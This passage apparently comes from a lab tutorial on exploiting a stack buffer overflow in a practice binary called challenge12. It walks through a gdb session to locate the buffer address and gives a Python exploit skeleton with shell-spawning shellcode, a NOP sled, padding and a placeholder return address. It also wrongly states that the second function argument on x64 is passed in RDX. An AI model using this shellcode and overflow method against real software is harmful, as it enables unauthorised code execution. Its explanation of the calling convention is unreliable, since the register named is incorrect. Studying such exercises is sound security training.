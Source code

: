 Lets break before calling `handleData`:
```
(gdb) b *0x0000000000400828
Breakpoint 1 at 0x400828
```

And run it with some dummy data:

```
(gdb) run AAAAAAAA BBBBBBBB
Starting program: /root/challenges/challenge12/challenge12 AAAAAAAA BBBBBBBB

Breakpoint 1, 0x0000000000400828 in main ()
```

`handleData(char *username, char *password)` has two arguments. Remember that in x64 function
call convention, the first argument for the function call is stored in `RDI`,
the second in `RDX`. We can check this:
```
(gdb) x/4x $rdi
0x7fffffffe87b: 0x41414141      0x41414141      0x42424200      0x42424242
(gdb) x/4x $rdx
0x7fffffffe884: 0x42424242      0x42424242      0x52455400      0x74783d4d
```

Therefore, the start of the buffer, where our future shellcode will be, is `0x7fffffffe87b`.


## Create an exploit

The prepared exploit skeleton is available at the file `challenge12-exploit-skel.py`:
```python
#!/usr/bin/python
# Skeleton exploit for challenge12
import sys
import struct

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

buf_size = 64
offset = ??

ret_addr = struct.pack('<Q', 0x??)

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```
